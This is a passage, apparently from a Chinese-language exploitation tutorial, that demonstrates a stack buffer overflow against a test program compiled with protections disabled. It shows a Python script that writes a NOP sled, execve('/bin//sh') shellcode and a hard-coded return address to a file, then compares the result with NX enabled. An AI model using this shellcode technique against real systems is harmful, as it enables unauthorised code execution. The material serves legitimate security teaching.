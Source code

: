 现在，禁用 NX 编译它：

```
$ gcc -fno-stack-protector -z execstack nx.c -o nx
```

在 GDB 中打开它：

```
$ gdb ./nx
```

然后，让我们运行这个利用：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += '\x90'*232
buffer += '\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05'
buffer += pack("<Q", 0x7fffffffe2c0)
f = open("input.txt", "w")
f.write(buffer)
```

执行利用：

```
$ python exploit.py
```

在 GDB 中，运行以下命令：

```
$ run $(cat input.txt)
```

上述命令的输出可以在以下截图中看到：

![](img/00414.jpeg)

现在，让我们尝试启用 NX 的相同利用：

```
$ gcc -fno-stack-protector nx.c -o nx
```
